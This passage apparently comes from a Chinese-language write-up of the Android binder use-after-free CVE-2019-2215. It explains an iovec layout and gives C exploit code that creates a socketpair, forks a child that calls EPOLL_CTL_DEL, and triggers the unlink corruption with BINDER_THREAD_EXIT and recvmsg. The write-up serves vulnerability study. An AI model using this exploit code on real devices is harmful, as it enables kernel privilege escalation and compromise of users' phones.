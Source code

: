 ![secondary iovec layout](/images/cve20192215/secondary_iovec_layout.jpg)

本次布局和前次略有不同:

+ ```iovec[10].iov_len = 1```，这里在后面会在创建socket后首先写入1 Byte到```dummy_page_4g_aligned```指向的内存，令```write```下次写入时将从```iovsec[11].iov_base```指向的内存块开始写入数据。

```cpp
int socks[2];
if (socketpair(AF_UNIX, SOCK_STREAM, 0, socks)) err(1, "socketpair");
if (write(socks[1], "X", 1) != 1) err(1, "write socket dummy byte");
```

接下来触发unlink漏洞：

```cpp
pid_t fork_ret = fork();
if (fork_ret == -1) err(1, "fork");
if (fork_ret == 0){
        /* Child process */
        prctl(PR_SET_PDEATHSIG, SIGKILL);
        sleep(2);
        printf("CHILD: Doing EPOLL_CTL_DEL.\n");
        epoll_ctl(epfd, EPOLL_CTL_DEL, binder_fd, &event);
        printf("CHILD: Finished EPOLL_CTL_DEL.\n");
        // write second_chunk
        if (write(socks[1], second_write_chunk, sizeof(second_write_chunk)) != sizeof(second_write_chunk))
                err(1, "write second chunk to socket");
        exit(0);
}
ioctl(binder_fd, BINDER_THREAD_EXIT, NULL);
struct msghdr msg = {
.msg_iov = iovec_array,
.msg_iovlen = IOVEC_ARRAY_SZ
};
int recvmsg_result = recvmsg(socks[0], &msg, MSG_WAITALL);
```
